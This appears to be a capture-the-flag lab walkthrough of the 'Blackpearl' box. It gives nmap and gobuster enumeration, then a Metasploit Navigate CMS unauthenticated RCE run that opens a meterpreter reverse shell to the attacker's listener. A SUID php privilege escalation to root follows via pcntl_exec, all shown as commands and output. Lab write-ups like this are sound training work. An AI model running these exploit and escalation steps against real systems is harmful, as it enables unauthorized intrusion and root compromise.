



# nmap
~~~
┌──(alpha㉿sploit)-[~/blackpearl]
└─$ sudo nmap -sV -A -sC 192.168.1.21 -oN nmap
[sudo] password for alpha: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-19 21:09 EDT
Nmap scan report for 192.168.1.21
Host is up (0.0010s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2
MAC Address: 00:0C:29:19:AB:81 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.04 ms 192.168.1.21

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.15 seconds
~~~
gobuster
~~~
┌──(alpha㉿sploit)-[~/blackpearl]
└─$ gobuster dir -u http://192.168.1.21/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.21/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/secret               (Status: 200) [Size: 209]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
~~~

~~~
┌──(alpha㉿sploit)-[~/blackpearl]
└─$ msfconsole -q
msf6 > search navigate cms

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/multi/http/navigate_cms_rce  2018-09-26       excellent  Yes    Navigate CMS Unauthenticated Remote Code Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/navigate_cms_rce

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/navigate_cms_rce) > show options

Module options (exploit/multi/http/navigate_cms_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /navigate/       yes       Base Navigate CMS directory path
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.19     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(multi/http/navigate_cms_rce) > set RHOSTS 192.168.1.21
RHOSTS => 192.168.1.21
msf6 exploit(multi/http/navigate_cms_rce) > set vhost blackpearl.tcm
vhost => blackpearl.tcm
msf6 exploit(multi/http/navigate_cms_rce) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic

msf6 exploit(multi/http/navigate_cms_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.19:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (39927 bytes) to 192.168.1.21
[*] Meterpreter session 1 opened (192.168.1.19:4444 -> 192.168.1.21:53804) at 2023-10-19 21:26:05 -0400

meterpreter > shell
Process 839 created.
Channel 1 created.
whoami
www-data
~~~
# privilege esc
~~~
meterpreter > shell
Process 13905 created.
Channel 2 created.
whoami
www-data
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blackpearl:~/blackpearl.tcm/navigate$ cd
cd
www-data@blackpearl:~$ cd /tmp     
cd /tmp
www-data@blackpearl:/tmp$ find / -type f -perm -4000 2>/dev/null
find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
www-data@blackpearl:/tmp$ /usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# cd /root
cd /root
# ls
ls
flag.txt
# cat *.txt
cat *.txt
Good job on this one.
Finding the domain name may have been a little guessy,
but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.
#
~~~
[GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid)

[Navigate CMS Unauthenticated Remote Code Execution](https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/)

[Spawning a TTY Shell](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)

